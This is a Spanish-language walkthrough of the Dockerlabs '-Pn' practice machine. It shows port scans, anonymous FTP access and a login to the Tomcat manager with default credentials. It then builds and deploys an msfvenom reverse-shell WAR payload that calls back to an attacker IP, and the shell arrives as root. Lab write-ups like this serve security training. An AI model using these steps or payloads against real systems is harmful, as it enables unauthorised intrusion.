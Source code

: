 # Writeup de la Máquina -Pn de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```
![ExtractPorts](_images/Screenshot_2.png)

Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 21 y 8080 con nmap.

```bash
sudo nmap -p21,8080 -sCV 172.17.0.2 -oN targeted
```

![Segundo Nmap](_images/Screenshot_3.png)

Al terminar el escaneo veo que tiene habilitado el usuario anonymous para hacer login en el servicio FTP. Así que procedo a connectarme y listar el conteidos

```bash
ftp 172.17.0.2
```
![FTP Connection](_images/Screenshot_4.png)

Una vez dentro observo que hay un archivo llamado tomcat.txt, este me lo bajo y miro su contenido.

![Tomcat](_images/Screenshot_5.png)

Este indica que se tiene que configurar el servidor tomcat que tiene pinta que se esta corriendo en puerto 8080. Para ver esto compruebo las tecnologias con whatweb.

```bash
whatweb http://172.17.0.2:8080
```
![whatweb](_images/Screenshot_6.png)

Efectivamente saca que es un servidor tomcat, sabiendo esto decido entrar a la interfaz web. En esta intento entrar al Tomcat Web Application Manager, para hacer esto entro a la url 172.17.0.2:8080/manager/html. Cuando intentas acceder te pide que inicies sesión con unas credenciales, así que procedo a buscar las credenciales por defecto de tomcat y con el usuario tomcat y la contraseña s3cr3t me permite entrar.

![Navegador](_images/Screenshot_7.png)
![Navegador 2](_images/Screenshot_8.png)
![Navegador 3](_images/Screenshot_9.png)
![Navegador 4](_images/Screenshot_10.png)
![Navegador 5](_images/Screenshot_11.png)

Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.76 -f war -o revshell.war
```
![Msfvenom](_images/Screenshot_20.png)

Una vez creado voy al apartado de desplegar un archivo war y selecciono la reverse shell que he creado anteriormente. Una vez desplegada me pongo en escucha en el puerto 443 con netcat y accedo a la url.

![Select](_images/Screenshot_21.png)
![Netcat](_images/Screenshot_23.png)
![Revshell](_images/Screenshot_22.png)

Una vez accedido a la url llega la shell a puerto 443 ya como el usuario root.

![root1](_images/Screenshot_24.png)
![root2](_images/Screenshot_25.png)
